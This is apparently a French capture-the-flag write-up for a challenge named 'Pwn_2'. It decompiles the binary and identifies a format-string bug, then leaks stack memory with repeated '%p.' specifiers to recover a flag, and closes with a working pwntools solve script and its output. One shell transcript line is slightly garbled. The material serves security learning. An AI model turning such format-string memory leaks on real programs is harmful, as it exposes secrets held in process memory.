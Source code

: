 # Pwn_2

```console
$ ./pwn_2 
Segmentation fault (core dumped)
```

Le programme ne semble pas fonctionner, analysons le avec Ghidra.

## Analyse statique

Avec Ghidra nous obtenons :

```C
undefined8 main(void)
{
  char file_content [64];
  char user_input [56];
  FILE *fd;
  
  fd = fopen("flag.txt","r");
  fgets(file_content,49,fd);
  puts(&DAT_00402278);
  fgets(user_input,49,stdin);
  puts(&DAT_004022e8);
  printf(user_input);
  return 0;
}
```

Le programme ouvre le contenu du fichier `flag.txt`, pour le lancer localement il faudra en créer un :

```console
$ echo "coucou" > flag.txt

$ ./pwn_2 
Oh, tu te crois malin ? Vas-y envoie-moi un payload, ça ne marchera pas ! Mes défenses sont impénétrables.
test
Tu vois à quel point tes tentatives sont inutiles ?
test
```

Cette fois-ci pas de buffer overflow mais un [format string](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) : `printf(user_input);`.

Le programme ouvre aussi un fichier `flag.txt` sans en afficher le contenu. Essayons d'en exfiltrer le contenu avec le format string.

## Analyse dynamique

On crée un faux flag :

```console
$ echo "SSI{TESTING_THIS}" > flag.txt
```

Le programme prend un input de 49 bytes : `fgets(user_input,49,stdin);`. Utilisons le format string pour afficher autant de bytes de le stack que possible :

```python
>>> "%p."*(49//3)
'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
```

```console
$ cp ~/Documents/LABOC./pwn_2 
Oh, tu te crois malin ? Vas-y envoie-moi un payload, ça ne marchera pas ! Mes défenses sont impénétrables.
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Tu vois à quel point tes tentatives sont inutiles ?
0x4c01490.(nil).0x7f261c880504.(nil).0x1.0x545345547b495353.0x534948545f474e49.0xa7d.0x7ffceb8cdb28.0x9e00000006.(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
```

Pour cette étape nous pouvons aller voir dans GDB pour y voir plus claire, mais nous pouvons aussi repérer cette suite hexadécimale qui ressemble de l'ASCII :

```
0x545345547b495353.0x534948545f474e49.0xa7d
```

```python3
>>> (len("0x545345547b495353")-2)//2
8
>>> 0x545345547b495353.to_bytes(8, 'little')
b'SSI{TEST'
```

Il s'agit donc bien du début du flag que nous avons mis dans `flag.txt`.

## Exploit

```python
from pwn import *
import math

payload = b"%p."*(50//3)

p = process("./pwn_2")
p.send(payload+b"\n")
data = p.recv()
data = data.split(b"\n")[-1].split(b".")[5:]

flag = b""
for i in data:
    if i != b"":
        flag += int(i, 16).to_bytes(math.ceil((len(i)-2)/2), 'little')
    if b"}" in flag:
        print(f"Flag : {flag}")
        p.close()
        exit()
p.close()
```

```console
$ python3 solve.py 
[+] Starting local process './pwn_2': pid 54497
[*] Process './pwn_2' stopped with exit code 0 (pid 54497)
Flag : b'SSI{TESTING_THIS}\n'
```

Plus qu'à lancer sur le serveur avec ce [script](./solve.py) :

```console
$ python3 ./solve.py 
[+] Opening connection to localhost on port 9696: Done
Flag : b'LABO{OweBopjnGfAQGU7WHdi+}\n'
[*] Closed connection to localhost port 9696
```
